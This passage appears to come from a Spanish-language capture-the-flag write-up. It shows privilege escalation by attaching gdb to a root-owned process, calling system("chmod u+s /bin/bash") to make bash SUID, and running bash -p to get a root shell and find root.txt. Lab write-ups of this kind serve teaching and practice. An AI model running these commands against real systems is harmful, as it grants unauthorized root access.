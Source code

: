 ```console
Reading symbols from /usr/lib/python3.8/lib-dynload/_lzma.cpython-38-x86_64-linux-gnu.so...
(No debugging symbols found in /usr/lib/python3.8/lib-dynload/_lzma.cpython-38-x86_64-linux-gnu.so)
0x00007f60d12c3967 in __GI___poll (fds=0xbd2a60, nfds=3, timeout=-1) at ../sysdeps/unix/sysv/linux/poll.c:29
29      ../sysdeps/unix/sysv/linux/poll.c: No such file or directory.
(gdb)
```

Al ejecutar observamos que se leen diversas librerias de los programas que forman parte en el proceso. Entonces usando el comando `info function <reg_expresion>` podemos buscar las funciones disponibles del programa en cuestión:

> Buscamos funciones con la expresion **system** con el propósito de poder ejecutar comandos

```console
(gdb) info function system
All functions matching regular expression "system":

File ../sysdeps/posix/system.c: <------------------------- C file!
197:    int __libc_system(const char *);
102:    static int do_system(const char *);

File pt-system.c:
38:     static int system_compat(const char *);

File svc.c:
309:    void __GI_svcerr_systemerr(SVCXPRT *);

Non-debugging symbols:
0x0000000000425530  system@plt
0x00007f60d0a42180  g_mem_is_system_malloc
0x00007f60d0a73d60  g_get_system_data_dirs

...

```

Buscando el archivo con su ruta relativa, encontramos que es una librería estándar de C que nos permite **ejecutar subprocesos o comandos en el Sistema Operativo**. Además pertenece a **Glibc** que es una **librería central del sistema** en C y es esencial en la mayoría de programas

> Entonces llamamos a la función **system** con el comando `call system("<command>")`

```console
(gdb) call system("chmod u+s /bin/bash")
[Detaching after vfork from child process 42640]
$4 = 0      <--------- successful process
(gdb) call system("wrong command")
[Detaching after vfork from child process 42653]
$5 = 32512  <--------- unsuccessful process
```

Solo asignamos a la `bash` permisos **SUID** para poder ejecutarlo como el propietario (root)

> Por último usamos el comando `shell` para obtener una consola, usamos `bash -p` para ejecutar la bash como el propietario y ser **root**

```console
(gdb) shell
bash-5.0$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18 11:14 /bin/bash
bash-5.0$ bash -p
bash-5.0# whoami
root
bash-5.0# find / -name root.txt | xargs ls -l
-rw-r----- 1 root root 33 Aug  5 06:54 /root/root.txt
```
